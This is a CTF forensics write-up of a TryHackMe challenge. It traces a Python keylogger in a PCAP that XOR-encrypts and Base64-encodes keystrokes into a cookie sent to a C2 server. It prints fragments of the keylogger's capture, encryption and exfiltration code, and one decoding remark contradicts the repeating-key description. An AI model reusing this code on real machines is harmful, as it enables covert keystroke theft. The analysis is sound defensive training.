






# 4 - Packed Light

**Platform:** Tryhackme | **Category:** Forensics | **Difficulty:** Easy

## Objective

The challenge provided a Wireshark PCAP and asked me to:

* Analyze the traffic for a covert communication channel.
* Identify where the exfiltrated data was being hidden.
* Reassemble the data.
* Decode the recovered data and retrieve the flag.

These clues pointed towards suspicious HTTP traffic and unusual request headers.

---

# 1. Analyzing the PCAP

I opened the provided `traffic.pcapng` file in Wireshark.

There was repeated HTTP traffic going to a server on port:

```text
8080
```

The requests were happening repeatedly, which matched the challenge clue about a request being sent every second.

I inspected the HTTP traffic and found:

```http
GET /temp/update.py HTTP/1.1
```



I followed the HTTP stream in Wireshark and recovered the Python source code.



---

# 2. Analyzing the Recovered Python Code

The python code revealed to be a **keylogger with data exfiltration**.

The relevant functionality was:

```python
from pynput import keyboard
```

The script captured keyboard input and passed every character to:

```python
sendltr(character)
```

The character was then encrypted:

```python
raw_bytes = character.encode('utf-8')
encrypted = xor(raw_bytes, getkey().encode('utf-8'))
```

The encrypted bytes were then Base64 encoded:

```python
b64_string = base64.b64encode(encrypted).decode('utf-8')
```

Finally, the Base64 value was placed inside an HTTP cookie:

```python
headers = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) ByteLotusClient/1.1",
    "Cookie": f"hotel_sess_state={b64_string}"
}
```

So the covert channel was:

```text
Keystroke
   ↓
XOR encryption
   ↓
Base64 encoding
   ↓
hotel_sess_state cookie
   ↓
HTTP GET request
   ↓
C2 server :8080
```

---

# 3. Finding the Encryption Key

The script contained the key-generation function:

```python
def getkey():
    p1 = "H0t3lSt@ff0Nly"
    p2 = "K3epS3cr3t!"
    return p1 + p2
```

Therefore, the complete XOR key was:

```text
H0t3lSt@ff0NlyK3epS3cr3t!
```

The script used a repeating-key XOR:

```python
def xor(data: bytes, key: bytes):
    return bytes(
        b ^ key[i % len(key)]
        for i, b in enumerate(data)
    )
```

Because each keystroke was only a small amount of data, each request contained an encoded fragment of the captured keyboard input.



---

# 4. Extracting the Cookie Values

Instead of manually copying every cookie from Wireshark, I used **TShark** to extract all HTTP cookies from the PCAP.

The command I used was:

```bash
tshark -r traffic.pcapng -Y 'tcp.port == 8080 && http.request && http.cookie' -T fields -e http.cookie | sed 's/^hotel_sess_state=//'
```

This extracted the values of:

```text
hotel_sess_state
```

The output looked like:



Each value represented an encoded fragment of the captured keystrokes.

---

# 5. Decoding the Data

The malware performed two transformations:

```text
Plaintext
   ↓
XOR
   ↓
Base64
```

Therefore, I needed to reverse those operations:

```text
Base64
   ↓
Decode
   ↓
XOR
   ↓
Plaintext
```

I used **CyberChef** for the decoding.

The basic workflow was:

```text
Remove Whitespace
        ↓
From Base64
        ↓
XOR
```



For the XOR step, the key was taken from the Python code:

```text
H0t3lSt@ff0NlyK3epS3cr3t! - only the first letter 'H' was used to decode
```



The extracted Base64 values were first combined in their original packet order, then decoded and XORed with the repeating key.

---

# 6. Reassembling the Exfiltrated Data

The order of the requests was important because each request represented a keyboard event.

The process was therefore:

```text
PCAP
 ↓
HTTP requests
 ↓
Extract hotel_sess_state
 ↓
Preserve chronological order
 ↓
Combine values
 ↓
Base64 decode
 ↓
XOR with key
 ↓
Recovered keystrokes
```

The resulting plaintext revealed the captured information and ultimately contained the flag.

```text
[FLAG REDACTED]
```

---

# 7. Why This Was a Covert Channel

The attacker wasn't sending the captured keystrokes in an obvious parameter such as:

```text
/data?keylogger=...
```

Instead, the data was hidden inside a legitimate-looking HTTP header:

```http
Cookie: hotel_sess_state=<encoded_data>
```

This makes the traffic look more like normal web application traffic at first glance.

The custom User-Agent was another useful indicator:

```text
ByteLotusClient/1.1
```

---

# 8. Indicators of Compromise

From the recovered code and traffic, the following indicators were identified:

| Indicator           | Value                       |
| ------------------- | --------------------------- |
| C2 server           | `byte-lotus-hotel.thm:8080` |
| Suspicious endpoint | `/temp/update.py`           |
| Cookie              | `hotel_sess_state`          |
| User-Agent          | `ByteLotusClient/1.1`       |
| Encoding            | Base64                      |
| Encryption          | Repeating-key XOR           |
| Data source         | Keyboard input              |

---

# 9. Attack / Investigation Flow

```text
PCAP
  ↓
Wireshark
  ↓
Repeated HTTP traffic on :8080
  ↓
GET /temp/update.py
  ↓
Recover Python source
  ↓
Identify keylogger
  ↓
Identify Cookie-based exfiltration
  ↓
Extract hotel_sess_state with TShark
  ↓
Preserve request order
  ↓
Base64 decode
  ↓
XOR with recovered key
  ↓
Reassemble keystrokes
  ↓
Flag
```

---

# 10. Key Takeaways

### Follow suspicious HTTP streams

The request:

```http
GET /temp/update.py
```

was the turning point.

Following the HTTP stream exposed the Python code and explained the entire communication mechanism.

### Cookies can be abused for data exfiltration

Cookies are normally associated with sessions and authentication, but an attacker can abuse them as a covert data channel.

Here:

```text
hotel_sess_state
```

was being used to transport captured keystrokes.

### Base64 is encoding, not encryption

The script used both:

```text
XOR → Encryption
Base64 → Encoding
```

Therefore, Base64 decoding alone wasn't enough to recover the original data.

### Automate repetitive extraction

Instead of manually copying every cookie value from Wireshark, TShark allowed me to extract them all:

```bash
tshark -r traffic.pcapng -Y 'tcp.port == 8080 && http.request && http.cookie' -T fields -e http.cookie | sed 's/^hotel_sess_state=//'
```

Used the `sed` command to remove the unwanted cookie values.

This made the forensic analysis much faster and reduced the chance of missing packets.

---

# Conclusion

Packed Light was a good introduction to network forensics and covert-channel analysis.

The PCAP initially showed what looked like repeated HTTP requests to port `8080`. By following the suspicious HTTP stream, I recovered a Python keylogger and discovered that every captured keystroke was:

```text
XOR encrypted
      ↓
Base64 encoded
      ↓
Stored in hotel_sess_state
      ↓
Sent to the C2 server
```

The keylogger source code provided the encryption logic and key, while TShark allowed me to extract all of the exfiltrated cookie values efficiently.

After reconstructing the values in chronological order, decoding the Base64 data, and applying the XOR operation, I recovered the hidden flag.
